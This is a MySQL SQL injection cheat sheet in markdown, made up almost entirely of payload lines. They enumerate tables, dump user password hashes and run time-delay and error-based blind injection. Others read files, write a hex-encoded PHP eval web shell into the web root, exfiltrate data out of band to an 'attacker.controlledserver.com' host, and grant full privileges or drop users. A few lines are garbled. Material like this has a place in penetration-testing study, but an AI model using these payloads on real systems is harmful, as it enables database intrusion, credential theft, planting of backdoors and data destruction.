 # SQL Injection Cheat Sheet MySQL  :syringe:

Inspired by
[SQL-Injection-Cheat-Sheet-MySQL](https://blog.safebuff.com/2016/04/11/SQL-Injection-Cheat-Sheet-MySQL/) and 
[SecurityIdiots](http://www.securityidiots.com/Web-Pentest/SQL-Injection/)


[Advanced](https://github.com/w4fz5uck5/Pentest-notes/blob/master/SQL_injection.txt)

by: Eduardo Barbosa (@Anake)  :alien::smiling_imp::boom: 


- [SQL Injection Cheat Sheet MySQL](#SQL-Injection-Cheat-Sheet-MySQL)
    - [Comments](#Comments)
    - [Version](#Version)
    - [User details](#User-details)
    - [Database details](#Database-details)
    - [Database credentials](#Database-credentials)
    - [Server details](#Server-details)
    - [Table Name](#Table-Name)
    - [Find Tables From Column Name](#Find-Tables-From-Column-Name)
    - [Columns Names](#Columns-Names)
    - [Bitwise AND](#Bitwise-AND)
    - [No Quotes](#No-Quotes)
    - [String Concatenation](#String-Concatenation)
    - [If Statement](#If-Statement)
    - [Avoiding Quotes](#Avoiding-Quotes)
    - [Case Statement](#Case-Statement)
    - [Conditionals](#Conditionals)
    - [Time-delay](#Time-delay)
    - [Command Execution](#Command-Execution)
    - [RunAs](#RunAs)
    - [Read Files](#Read-Files)
    - [Outfile Files to www](#Outfile-Files-to-www)
    - [Out-of-Band Retrieval](#Out-of-Band-Retrieval)
    - [Substrings](#Substrings)
    - [Retrieve Nth Line](#Retrieve-Nth-Line)
    - [Select Nth Row](#Select-Nth-Row)
    - [List Privileges](#List-Privileges)
    - [List DBA Accounts](#List-DBA-Accounts)
    - [Delete Users](#Delete-Users)
    - [Make User DBA](#Make-User-DBA)
    
    
## SQL Injection Cheat Sheet MySQL

### Comments

```
--	 #	MySQL Linux Style            
--+      #	MySQL Windows Style          
#	 #	Hash (URL encode while use)  
--+-	 #	SQL Comment                  
;%00	 #	Null Byte                    
`        #      Backtick   
/*
```

### Version

```
SELECT VERSION();
SELECT @@VERSION;
SELECT @@GLOBAL.VERSION;
```

### User details

```
SELECT user()
SELECT current_user()
SELECT current_user
SELECT system_user()
SELECT session_user()
SELECT user,password FROM mysql.user;   # list Users
```

### Database details

```
SELECT db_name();
SELECT database();
SELECT schema_name FROM information_schema.schemata;
```

### Database credentials

```
SELECT host, user, password FROM mysql.user;
```

### Server details

```
SELECT @@hostname;
```

### Table Name

```
SELECT table_name FROM information_schema.tables;
SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema';
SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10; #all tables
AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'; #Blind
and 0<(select count(*) from xxx) and 1<2    #盲注爆表

AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2)))
(@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0);
AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));-- Available in 5.1.5
```

### Find Tables From Column Name

```
SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = 'columnname';#find table which have a column called 'columnname'
and 0<(select count(xxx) from tbl_user) and 1<2 ＃盲注爆字段
```

### Columns Names

```
SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename';
SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema';
```

### Bitwise AND

```
SELECT 6 & 2; # returns 2
SELECT 6 & 1; # returns 0
```

### No Quotes 

```
CONCAT(CHAR(97), CHAR(98), CHAR(99))
```

### String Concatenation

```
CONCAT(foo, bar)
```

### If Statement

```
SELECT if(1=1,'foo','bar'); -- returns 'foo'
```

### Avoiding Quotes

```
SELECT 0×414243; # returns ABC
```
### Case Statement

```
SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END; # returns A
```

### Conditionals

```
SELECT IF(1=1,'true','false');
```

### Time-delay

```
SELECT BENCHMARK(1000000,MD5(‘A’));
SELECT SLEEP(5); # >= 5.0.12
```

### Command Execution

```
http://dev.mysql.com/doc/refman/5.1/en/adding-udf.html
```

### RunAs

```
N/A
```

### Read Files

```
SELECT LOAD_FILE('C:Windowswin.ini');
```

### Outfile Files to www

```
select 0x3C3F706870206576616C28245F504F53545B7A5D293B3F3E into outfile '/usr/local/var/www/webshell.php' # <?php eval($_POST[z]);?>"
```

### Out-of-Band Retrieval

```
SELECT LOAD_FILE(concat('\\',(SELECT 1), 'attacker.controlledserver.com\')));
```

### Substrings

```
SELECT substr('Foobr', 1, 1);
```

### Retrieve Nth Line

```
SELECT * FROM table ORDER BY ID LIMIT 3,1
````

### Select Nth Row

```
SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename' limit 1 offset 1    #bypass limit 1,1
SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename' limit 1 offset 2
```

### List Privileges

```
SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges;

list user privsSELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user;
   
priv, list user privsSELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges;
    
list privs on databases (schemas)SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges;
    
list privs on columns
```

### List DBA Accounts

```
SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'SUPER';
SELECT host, user FROM mysql.user WHERE Super_priv = 'Y'; # priv

```

### Delete Users

```
DROP USER test1;
```

### Make User DBA

```
GRANT ALL PRIVILEGES ON *.* TO test@'%';
```
